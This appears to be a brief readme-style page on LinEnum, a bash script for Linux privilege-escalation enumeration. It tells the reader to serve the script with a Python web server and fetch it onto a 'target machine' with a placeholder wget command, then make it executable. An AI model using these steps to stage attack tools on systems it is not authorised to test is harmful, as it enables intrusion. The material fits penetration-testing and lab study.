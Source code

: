 #### [Documentation](https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh)

# LinEnum

LinEnum is a bash script that performs common Linux privilege escalation commands. Run cmd `./LinEnum.sh`

**How to get LinEnum on a target machine:**
- **Method 1:** Create a python webserver to transfer the file.
	1) `cd` into the directory that holds LinEnum.sh
	2) Start a Python web server: `python3 -m http.server 8000`
	3) Transfer the file: `wget <IP>:<PORT>/<Directory>`
	4) Make the file executable using the command: `chmod +x LinEnum.sh`
- **Method 2:** copy and paste the code from your machine to a new file on the target machine. Then make it executable using `chmod +x LinEnum.sh`
